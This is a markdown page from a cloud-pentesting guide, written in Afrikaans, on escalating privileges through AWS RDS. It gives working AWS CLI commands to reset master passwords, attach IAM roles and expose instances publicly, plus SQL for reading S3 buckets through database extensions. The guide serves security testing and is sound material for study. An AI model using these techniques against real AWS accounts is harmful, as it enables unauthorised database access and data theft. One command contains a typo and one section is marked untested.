 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Relasionele Databasisdiens

Vir meer inligting oor RDS, kyk:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller **die wagwoord van die meester gebruiker verander**, en die aanmelding binne die databasis:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Jy sal in staat moet wees om te **kontak met die databasis** (hulle is gewoonlik net vanaf binne-netwerke toeganklik).

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming aan die DB-instansie koppel.

### Misbruik RDS Rol IAM toestemmings

#### Postgresql (Aurora)

> [!TIP]
> As jy **`SELECT datname FROM pg_database;`** uitvoer en 'n databasis genaamd **`rdsadmin`** vind, weet jy jy is binne 'n **AWS postgresql databasis**.

Eerstens kan jy kyk of hierdie databasis gebruik is om toegang te verkry tot enige ander AWS-diens. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:
```sql
SELECT * FROM pg_extension;
```
As jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **'n soort toegang oor S3** het (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy daar sien of die **kluster enige IAM Rol aangeheg het** in die veld **`AssociatedRoles`**. As daar enige is, kan jy aanneem dat die databasis **voorberei was om toegang tot ander AWS dienste** te hê. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry) kan jy **raai** watter ekstra toegang die databasis het.

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
As jy **raw AWS-akkrediteerings** gehad het, kon jy dit ook gebruik om toegang tot S3-data te verkry met:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **hoef nie enige parameter groep veranderlike te verander** om toegang tot S3 te verkry nie.

#### Mysql (Aurora)

> [!TIP]
> Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** uitvoer en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem jy is binne 'n **AWS RDS mysql db**.

Binne die mysql voer **`show variables;`** uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, waardes het, kan jy aanneem die databasis is voorberei om toegang tot S3 data te verkry.

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die kluster enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS dienste beteken).

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **sensitiewe data te bekom** of die data binne die instantie te wysig.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.\
Let daarop dat sommige DB's addisionele konfigurasies vereis soos Mysql, wat die rol ARN in die parameter groepe moet spesifiseer.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instansie binne 'n kluster** wat reeds bestaan en 'n **IAM rol** aangeheg het, skep. Hy sal nie in staat wees om die meester gebruikerswagwoord te verander nie, maar hy mag in staat wees om die nuwe databasisinstansie aan die internet bloot te stel:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Toets

An aanvaller met die toestemmings `rds:CreateDBInstance` en `iam:PassRole` kan **nuwe RDS-instantie met 'n spesifieke rol aangeheg**. Die aanvaller kan dan moontlik **toegang tot sensitiewe data** verkry of die data binne die instantie verander.

> [!WARNING]
> Sommige vereistes van die rol/instansie-profiel om aan te heg (van [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Die profiel moet in jou rekening bestaan.
> - Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
> - Die instansie-profielnaam en die geassosieerde IAM-rolnaam moet met die voorvoegsel `AWSRDSCustom` begin.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die regte `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

> [!WARNING]
> Die DB-instantie moet buite 'n kluster wees vir dit
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instansie.

{{#include ../../../banners/hacktricks-training.md}}
